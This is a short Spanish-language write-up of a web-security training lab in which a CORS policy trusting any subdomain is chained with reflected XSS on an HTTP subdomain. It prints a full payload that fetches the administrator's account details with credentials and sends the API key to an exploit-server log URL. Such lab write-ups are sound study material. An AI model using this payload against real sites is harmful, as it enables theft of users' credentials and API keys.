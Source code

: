 En esta clase continuamos con la explotación del laboratorio anterior, donde la configuración CORS del servidor acepta solicitudes desde cualquier subdominio, incluso si estas provienen de un origen no seguro (HTTP).

Profundizamos en cómo aprovechar una vulnerabilidad de XSS reflejado en un subdominio que opera sobre HTTP, lo cual nos permite inyectar y ejecutar un script malicioso. Dicho script accede al endpoint sensible de la cuenta del administrador y, gracias a la configuración permisiva del servidor, la clave API es expuesta. Este valor es redirigido al servidor de explotación para completar con éxito el laboratorio.

Solucion
Segimos con el script

<script>
    document.location="http://stock.0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a97004f0494e312811342b1019000de.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>

el apikey me lo dio asi con los logs
![Pasted image 20250728225235.png](imagenes/Pasted image 20250728225235.png)
